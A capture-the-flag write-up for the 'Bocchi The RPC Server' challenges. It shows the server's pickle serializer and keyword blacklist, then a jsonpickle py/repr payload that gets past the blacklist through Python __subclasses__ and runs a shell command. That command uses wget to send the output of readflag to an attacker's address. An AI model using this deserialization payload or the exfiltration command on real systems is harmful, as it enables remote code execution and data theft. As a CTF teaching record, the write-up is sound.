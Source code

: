 **Problems: Bocchi The RPC Server v1 & v2**
Solver: @goldensang @phulelouch

Problem context:
- The problems propose a rpcpy.py application with a route /sayhi
- And trigger the ./readflag application to get the flag

Analysis:

application.py
```python
  def preprocess(self, request: WsgiRequest | AsgiRequest) -> typing.Tuple[BaseSerializer, typing.Callable]:
        """
        Preprocess request
        """
        # check request method
        if request.method != "POST":
            raise CallbackError(content="", status_code=405)

        # check serializer
        try:
            serializer = get_serializer(request.headers)
        except SerializerNotFound as exception:
            raise CallbackError(content=str(exception), status_code=415)

        # check callback
        callback = self.callbacks.get(request.url.path[len(self.prefix) :], None)
        if callback is None:
            raise CallbackError(content="", status_code=404)

        return serializer, callback

```
serializer.py
```python
class PickleSerializer(BaseSerializer):
    name = "pickle"
    content_type = "application/x-pickle"

    def encode(self, data: typing.Any) -> bytes:
        return pickle.dumps(data)

    def decode(self, data: bytes) -> typing.Any:
        return pickle.loads(data)
BLACKLIST = [
    "builtin",
    "exec",
    "eval",
    "getattr",
    "globals",
    "import",
    "lambda",
    "locals",
    "marshal",
    "os",
    "pickle",
    "posix",
    "pty",
    "setattr",
    "shelve",
    "sys",
    "system",
    "subprocess",
    "timeit",
]
def is_blacklisted(data):
    for bl in BLACKLIST:
        if bl.encode() in data:
            print(bl)
            return True
    return False


```

After consider the flow, we realized that JsonPickle can be attacked, so we need to find a payload to bypass the Blacklist & get the flag, presumably RCE attack

After a little research, i found the RCE for the job:
https://www.exploit-db.com/exploits/49585
We can trigger any python code with this payload
Payload should looks like this: 
```python
malicious = '{"1": {"py/repr": "time/time.sleep(10)"}, "2": {"py/id": 67}}'
```

After that what's left is to forge a payload, we know a neet trick of forging it with SSTIs payload
And the final result looks somewhat like this:
```python
malicious = '{"1": {"py/repr": "time/print(().__class__.__bases__[0].__subclasses__()[364]('cd ..; wget http:$(pwd)$(pwd)ip and port$(pwd)$($(pwd)readflag) ',shell=True,stdout=-1).communicate()[0].strip())"}, "2": {"py/id": 32}}'
```

Flag: 
W1{Bocchi_The_JSON_Pickle_b038d18a562fec32f7055596f883f185}
W1{Bocchi_The_LD_PRELOAD_f69a9e0d4a45f98c09cd9bfe3730601e}
